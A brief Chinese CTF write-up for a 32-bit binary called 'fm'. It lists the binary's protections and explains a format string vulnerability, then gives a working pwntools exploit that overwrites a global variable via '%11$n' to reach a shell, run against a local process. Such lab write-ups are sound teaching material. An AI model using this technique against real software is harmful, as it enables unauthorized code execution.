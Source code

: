 # 知识点

格式化字符串



# 题目分析

1. 检查保护情况。32位程序，开启NX保护，开启Canary保护。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    Canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，发现存在格式化字符串漏洞。若x = 4，则执行shell。

   ![ida1](./isset/ida1.png)

3. 思路很简单，直接格式化字符串修改变量x的值为4即可。



# EXP

```python
from pwn import *

io = process('./fm')

x_bss = 0x0804A02C
offset = 11

payload = p32(x_bss) + '%11$n'
io.send(payload)

io.interactive()
```

